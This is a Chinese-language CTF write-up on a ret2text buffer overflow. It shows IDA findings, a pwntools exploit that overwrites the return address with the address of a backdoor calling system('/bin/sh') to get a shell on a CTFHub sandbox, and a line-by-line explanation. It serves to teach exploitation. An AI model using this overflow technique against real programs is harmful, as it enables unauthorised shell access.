




# ida 反编译
如下

发现声明了一个v4 是112字节
同时发现secure函数如下

发现了`system("/bin/sh")`
这就是相对于一个shell窗口
可以知道返回`system`函数的地址是`0x4007B8`

因此覆盖112+8个字节
# 代码如下
```python
from pwn import *
p=remote('challenge-d158666bf8d3730c.sandbox.ctfhub.com',  29454)
shell_addr=0x4007B8
payloadp=b'A' *(0x70+0x8) + p64(shell_addr)
p.send(payloadp)
p.interactive()
```

# 结果


# ret2text

ret是return的意思， 2是to的意思。text指的是代码段。

ret的时候返回到`我们指定的text段的某个位置`(通常是后门函数的位置)

比如前面的`/bin/sh`

核心思想：

**通过覆盖函数的返回地址，让程序跳转到二进制文件自身代码段（.text 节）中已有的、有用的指令序列（如 `system("/bin/sh")`）**，从而劫持程序控制流

# 代码解释

- pwn

  **Pwntools** 是一个强大的 Python 库，专门用于 **CTF（Capture The Flag）比赛、漏洞利用（Exploit Development）和二进制逆向工程**

- remote

  建立远程连接

- 目标地址

  ```
  shell_addr = 0x4007B8
  ```

- b'A' \* (0x70 + 0x8)

  `0x70`（112 字节）：覆盖缓冲区（如 `char buf[112]`）。

  `0x8`（8 字节）：覆盖 **保存的 `RBP`**（栈基指针，64 位程序下占 8 字节）

- p64(shell_addr)：

  将 `0x4007B8` 打包为 **64 位小端序字节**，覆盖 **返回地址**

- #### 发送 payload

  ```
  p.send(payload)
  ```

- 交互模式

  ```python
  p.interactive()
  ```